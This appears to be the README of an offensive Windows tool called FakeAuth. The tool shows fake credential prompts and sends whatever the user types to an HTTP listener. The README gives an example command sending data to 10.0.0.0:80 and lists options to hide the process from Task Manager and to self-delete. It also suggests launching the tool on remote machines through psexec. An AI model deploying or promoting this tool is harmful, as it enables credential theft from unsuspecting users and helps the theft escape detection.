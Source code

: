 # FakeAuth

FakeAuth is a tool that prompts for user credentials and exfiltrates it with HTTP protocol.

Inspired by following projects
1) hlldz's PICKL3 [https://github.com/hlldz/pickl3](https://github.com/hlldz/pickl3)

Expect dirty code and some bugs ;)

## Installation

No special requirements


## Usage v1.01

```
Usage:   FakeAuth.exe <hide> <mode> <type> <count> <title> <message> <listener>
Example: FakeAuth.exe 1 1 1 10 window_title enter_creds 10.0.0.0:80\n
hide     (integer) -> Hide Process in Taskmgr by WinAPI-Hook (0,1 - requires FakeAuth.dll) 
mode     (integer) -> Self-Delete at process stop (0,1) - .dll only possible if taskmgr closed!
type     (integer) -> Prompt Style (1,2)
count    (long)    -> How many prompts after invalid Credentials (0,1,2,..,n 0=unlimited)
title    (string)  -> Prompt title (visible in type=1 only)
message  (string)  -> Window message
listener (string)  -> HTTP exfiltration listener (10.0.0.0:80), if not specified print stdout
```

Best way to use is to start on a remote machines in a user session. (psexec or other helpers)

## Contact

@atn1ght1 Twitter